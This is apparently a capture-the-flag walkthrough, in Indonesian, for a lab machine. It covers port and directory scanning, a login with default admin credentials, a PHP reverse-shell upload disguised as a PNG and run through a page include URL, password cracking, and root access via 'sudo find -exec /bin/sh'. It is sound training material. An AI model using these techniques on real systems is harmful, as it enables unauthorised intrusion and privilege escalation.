# Reconnaissance

### Port Enemuration
    nmap -sC -sV -oN doom.nmap -p- -T4 --min-rate=1000 10.1.2.152

```
# Nmap 7.94SVN scan initiated Sun Feb 18 20:55:08 2024 as: nmap -sC -sV -oN doom.nmap -p- -T4 --min-rate=1000 10.1.2.152
Warning: 10.1.2.152 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.1.2.152
Host is up (0.25s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
80/tcp    open     http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: 403 Forbidden
1773/tcp  filtered kmscontrol
3403/tcp  filtered unknown
8354/tcp  filtered unknown
9764/tcp  filtered unknown
14356/tcp filtered unknown
20238/tcp filtered unknown
22408/tcp filtered unknown
33274/tcp filtered unknown
33588/tcp filtered unknown
38168/tcp filtered unknown
60673/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 20:56:45 2024 -- 1 IP address (1 host up) scanned in 97.44 seconds
```

### Directory Enemuration
    dirb http://10.1.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o doom.dirb

```
OUTPUT_FILE: doom.dirb
START_TIME: Sun Feb 18 21:04:21 2024
URL_BASE: http://10.1.2.152/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.152/ ----
+ http://10.1.2.152/.config (CODE:403|SIZE:1476)
+ http://10.1.2.152/_vti_bin/_vti_adm/admin.dll (CODE:403|SIZE:1476)
+ http://10.1.2.152/_vti_bin/_vti_aut/author.dll (CODE:403|SIZE:1476)
+ http://10.1.2.152/_vti_bin/shtml.dll (CODE:403|SIZE:1476)
+ http://10.1.2.152/akeeba.backend.log (CODE:403|SIZE:1476)
+ http://10.1.2.152/awstats.conf (CODE:403|SIZE:1476)
==> DIRECTORY: http://10.1.2.152/dev/
+ http://10.1.2.152/development.log (CODE:403|SIZE:1476)
+ http://10.1.2.152/global.asa (CODE:403|SIZE:1476)
+ http://10.1.2.152/global.asax (CODE:403|SIZE:1476)
+ http://10.1.2.152/index.php (CODE:200|SIZE:2186)
==> DIRECTORY: http://10.1.2.152/javascript/
+ http://10.1.2.152/main.mdb (CODE:403|SIZE:1476)
+ http://10.1.2.152/php.ini (CODE:403|SIZE:1476)
+ http://10.1.2.152/production.log (CODE:403|SIZE:1476)
+ http://10.1.2.152/server-status (CODE:403|SIZE:1476)
+ http://10.1.2.152/spamlog.log (CODE:403|SIZE:1476)

```


# Exploitation

### 1. Web Exploit

Terdapat 1 page valid dari hasil enumurasi directory `dev`



- Langkah selanjutnya dengan login menggunakan default credential dari online ID Generator System yaitu 
    ```
    username : admin
    password : admin123
    ```
    

- Setelah masuk lalu pindah ke menu settings dan lakukan serangan file upload dengan webshells
    
    ada sedikit keamanan yang memvalidasi extension file php untuk di tolak dan memberikan response 403, tetapi masih bisa di akali dengan menggunakan methode yang mengubah extension file menjadi png.
    

- inspect element pada image lalu copy path hasil upload tadi untuk di execute

- Execute webshell menggunakan url ini `http://10.1.2.152/?page=dev/uploads/1708266960_php-reverse-shell.png`
    


### Horizontal Privillage Escalation

- Melakukan pengecekan pada source code untuk melihat credential user
    cat /var/www/html/dev/initialize.php

    

- Melakukan cracking password user dari pearce
    


- Login menggunakan credential yang d dapat dari hasil cracking pasword
    

- Mencari command tertentu yang diizinkan untuk dieksekusi oleh pengguna dengan menggunakan `sudo -l`
    

- Dapatkan hak akses user root dengan  `sudo find . -exec /bin/sh \; -quit` 

    


# Solved

